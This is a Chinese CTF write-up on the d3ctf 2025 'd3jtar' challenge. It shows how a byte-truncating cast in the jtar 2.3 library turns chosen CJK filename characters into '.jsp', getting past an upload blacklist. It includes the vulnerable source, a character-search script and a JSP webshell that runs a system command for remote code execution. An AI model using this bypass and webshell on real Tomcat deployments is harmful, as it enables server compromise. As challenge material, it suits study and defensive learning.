# 从2025d3ctf——d3jtar学习tomcat文件上传绕过(详解)-先知社区

> **来源**: https://xz.aliyun.com/news/18148  
> **文章ID**: 18148

---

# 环境&源码分析

给了一个war包，查看源码发现有

/view

/Upload

/Backup

这三个路由

```
public class MainController {
    public MainController() {
    }

    @GetMapping({"/view"})
    public ModelAndView view(@RequestParam String page, HttpServletRequest request) {
        if (page.matches("^[a-zA-Z0-9-]+$")) {
            String viewPath = "/WEB-INF/views/" + page + ".jsp";
            String realPath = request.getServletContext().getRealPath(viewPath);
            System.out.println(realPath);
            File jspFile = new File(realPath);
            if (realPath != null && jspFile.exists()) {
                return new ModelAndView(page);
            }
        }
        ModelAndView mav = new ModelAndView("Error");
        mav.addObject("message", "The file don't exist.");
        return mav;
    }

    @PostMapping({"/Upload"})
    @ResponseBody
    public String UploadController(@RequestParam MultipartFile file) {
        try {
            String uploadDir = "/WEB-INF/views";
            Set<String> blackList = new HashSet(Arrays.asList("jsp", "jspx", "jspf", "jspa", "jsw", "jsv", "jtml", "jhtml", "sh", "xml", "war", "jar"));
            String filePath = Upload.secureUpload(file, uploadDir, blackList);
            return "Upload Success: " + filePath;
        } catch (Upload.UploadException var5) {
            Upload.UploadException e = var5;
            return "The file is forbidden: " + e;
        }
    }

    @PostMapping({"/BackUp"})
    @ResponseBody
    public String BackUpController(@RequestParam String op) {
        if (Objects.equals(op, "tar")) {
            try {
                BackUp.tarDirectory(Paths.get("backup.tar"), Paths.get("/WEB-INF/views"));
                return "Success !";
            } catch (IOException var3) {
                return "Failure : tar Error";
            }
        } else if (Objects.equals(op, "untar")) {
            try {
                BackUp.untar(Paths.get("/WEB-INF/views"), Paths.get("backup.tar"));
                return "Success !";
            } catch (IOException var4) {
                return "Failure : untar Error";
            }
        } else {
            return "Failure : option Error";
        }
    }
}

```

view是只能传入文件名字，其实也就是文件上传成功之后生成的uuid



然后后面会利用一个ModelAndView，感觉就是模板文件的东西

Upload路由里面有个Upload.*secureUpload的方法*

然后黑名单是

"jsp", "jspx", "jspf", "jspa", "jsw", "jsv", "jtml", "jhtml", "sh", "xml", "war", "jar"

上传成功之后会返回文件名的uuid

Backup路由是利用了一个org.kamranzafar.jtar依赖创建tar的实体以及相关的压缩和解压读写文件功能

然后版本是2.3

```
        <dependency>
            <groupId>org.kamranzafar</groupId>

            <artifactId>jtar</artifactId>

            <version>2.3</version>

        </dependency>

```

网上搜了一圈也没找到这个依赖有漏洞点。

# 题目分析



题目提示了文件上传的类中，secureUpload的方法没什么问题

那么我们侧重看一下tar和untar这两个方法

tar就是把webapps/ROOT/WEB-INF/views目录下面的文件都进行打包到backup.tar里面去

主要的方法



然后再看一下untar解压



里面没有对entry.getName()进行检测，说明我们是可以进行目录的穿越的。

可以进行目录穿越也只能在解压我们恶意的tar包才起作用。

不要忘记了，我们上传文件的时候会重新命名成uuid的形式，并不是backup.tar

# 解题思路

根据上面的分析，开始推测，题目的本意会不会并不是让我们去目录穿越呢？

但是我们知道，肯定是跟org.kamranzafar.jtar下面的类脱不了关系的



而org.kamranzafar.jtar下面也只有这几个类，审计起来还是挺方便的。

所以我们开始调试，主要关注用到org.kamranzafar.jtar下面的类，同时打上断点



## 调试tar

发现Files.walk(inputDirectoryAbsolute).forEach((entry)的entry就是

```
path\to\WEB-INF\views\Error.jsp
```

relativeName就是Error.jsp

然后new一个实体

```
new TarEntry(entry.toFile(), relativeName)
```

也就是我们的tar实体，新建完之后传入到这个方法里面去

然后把文件名字每个字符都放到一个数组里面去



我们跟进去entry.writeEntryHeader(header)这个函数里面去

源码是长这样字的

```
public void writeEntryHeader(byte[] outbuf) {
        int offset = 0;
        offset = TarHeader.getNameBytes(this.header.name, outbuf, offset, 100);
        offset = Octal.getOctalBytes((long)this.header.mode, outbuf, offset, 8);
        offset = Octal.getOctalBytes((long)this.header.userId, outbuf, offset, 8);
        offset = Octal.getOctalBytes((long)this.header.groupId, outbuf, offset, 8);
        long size = this.header.size;
        offset = Octal.getLongOctalBytes(size, outbuf, offset, 12);
        offset = Octal.getLongOctalBytes(this.header.modTime, outbuf, offset, 12);
        int csOffset = offset;

        for(int c = 0; c < 8; ++c) {
            outbuf[offset++] = 32;
        }

        outbuf[offset++] = this.header.linkFlag;
        offset = TarHeader.getNameBytes(this.header.linkName, outbuf, offset, 100);
        offset = TarHeader.getNameBytes(this.header.magic, outbuf, offset, 8);
        offset = TarHeader.getNameBytes(this.header.userName, outbuf, offset, 32);
        offset = TarHeader.getNameBytes(this.header.groupName, outbuf, offset, 32);
        offset = Octal.getOctalBytes((long)this.header.devMajor, outbuf, offset, 8);
        offset = Octal.getOctalBytes((long)this.header.devMinor, outbuf, offset, 8);

        for(offset = TarHeader.getNameBytes(this.header.namePrefix, outbuf, offset, 155); offset < outbuf.length; outbuf[offset++] = 0) {
        }

        long checkSum = this.computeCheckSum(outbuf);
        Octal.getCheckSumOctalBytes(checkSum, outbuf, csOffset, 8);
    }
```

在offset = TarHeader.getNameBytes(this.header.name, outbuf, offset, 100);方法中

文件的名字会以这种方式被读取

注意看，这个字符是经过byte强转的，而这里也是解题的关键，当然我们这里是英文的字符，所以当时根本没发现编码的问题。



最后赋值给private TarEntry currentEntry返回给out

然后接下来就是把Error.jsp文件里面的内容写入到Tar的实体里面去，

其中175是Error.jsp文件内容每个字符经过ascii编码之后，统计一共有多少个字符数量。



## 调试untar

在untar这里

同时也有一个getNextEntry()方法，但是是TarInputStream类的

```
public TarEntry getNextEntry() throws IOException {
        this.closeCurrentEntry();
        byte[] header = new byte[512];
        byte[] theader = new byte[512];

        int res;
        for(int tr = 0; tr < 512; tr += res) {
            res = this.read(theader, 0, 512 - tr);
            if (res < 0) {
                break;
            }

            System.arraycopy(theader, 0, header, tr, res);
        }

        boolean eof = true;
        byte[] var5 = header;
        int var6 = header.length;

        for(int var7 = 0; var7 < var6; ++var7) {
            byte b = var5[var7];
            if (b != 0) {
                eof = false;
                break;
            }
        }

        if (!eof) {
            this.currentEntry = new TarEntry(header);
        }

        return this.currentEntry;
    }
```

打断点调试分析



调试了一遍发现跟tar也是差不多的流程，都是会传入Error.jsp这个名字然后给数组去循环遍历每一个字符。

回想一下，由于环境是在tomcat下面的，如果要getshell，那么传入的得是jsp之类的文件。

而题目的org.kamranzafar.jtar依赖一直对文件的名字没有过滤或者waf之类的，

那么有没有可能是TarHeader.getNameBytes的方法生成文件名字的时候出现jsp呢？

# 柳暗花明&解题

我尝试在本地去新建了一个你好.html的文件名字

神奇的一幕就出现了



”你“字变成了96

打包之后的文件也是变成了反引号和花括号了



那不就说明通过中文字符是能够生成jsp的吗？

先看看jsp的ascii编码是什么



我们再来看看你好的ascii码值为什么最终会变成96和125

我们写一段测试的代码

```
public class Test {
    public static void main(String[] args) {
        char[] value = new char[]{'你'};
        System.out.println((byte)value[0]);
    }
}
```

最后打印的结果是96

为什么呢？

因为，在 Java 中，char 类型使用 UTF-16 编码，每个字符占用 两个字节（16 位）。

所以 '你' 并不是单字节字符，它的 Unicode 编码是：U+4F60

但是利用了(byte),强制转换成了 byte，这是 从 16 位转成 8 位，Java 会丢弃高 8 位，只保留低 8 位

'你' 字的十进制如下20320

```
20320
十六进制：0x4F60
二进制：0100 1111 0110 0000

```

拆分成高低 8 位：

高 8 位（0100 1111）= 0x4F = 79

低 8 位（0110 0000）= 0x60 = 96

那么我们现在就找低8位分别是106、115、112

强转之后就会变成jsp这样的字符了



```
public class Test {
    public static void main(String[] args) {
        for (char c = 0x4E00; c <= 0x9FFF; c++) {
            int cnt =0;
            int codePoint = c;
            int low8 = codePoint & 0xFF;
            if (low8 == 106) {
                System.out.println("字符: " + c + "，Unicode: U+" + Integer.toHexString(codePoint).toUpperCase() + "，低8位: " + low8);
            }
        }
    }
}

```

那么我们只需要随便选三个出来就是了

这里我选了

```
.呪乳买
```

shell.jsp木马

```
<%@ page import="java.io.*" %>
<%
    try {
        Process p = Runtime.getRuntime().exec("env");
        BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
        String line;
        while ((line = reader.readLine()) != null) {
            out.println(line + "<br>");
        }
    } catch (Exception e) {
        out.println("Error: " + e.getMessage());
    }
%>
```



上传成功之后得到uuid



先1后2

然后用view去访问

view?page=48ec95bb-da76-4300-9234-26bd8662e28b



# 总结

这题非常有意思的点是他涉及编码细节的问题

如果没有去调试代码，或者去加上自己的一点猜测的话，可能真的很难发现这个RCE的点

实在是很难去发现来个强转会导致编码问题，从而改变文件后缀名字。

总的来说学到的东西还是很多的。
